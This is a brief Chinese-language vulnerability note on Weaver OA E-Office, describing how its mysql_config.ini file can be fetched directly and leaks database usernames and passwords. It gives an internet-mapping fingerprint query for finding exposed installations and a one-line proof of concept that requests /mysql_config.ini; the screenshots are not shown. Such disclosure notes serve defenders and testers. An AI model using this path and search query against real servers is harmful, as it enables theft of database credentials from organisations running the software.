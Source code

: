 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

# 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

```
泛微 E-Office
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

产品页面

![img](/images/202202091048925.png)

验证POC

```php
/mysql_config.ini
```

![img](/images/202202091048869.png)

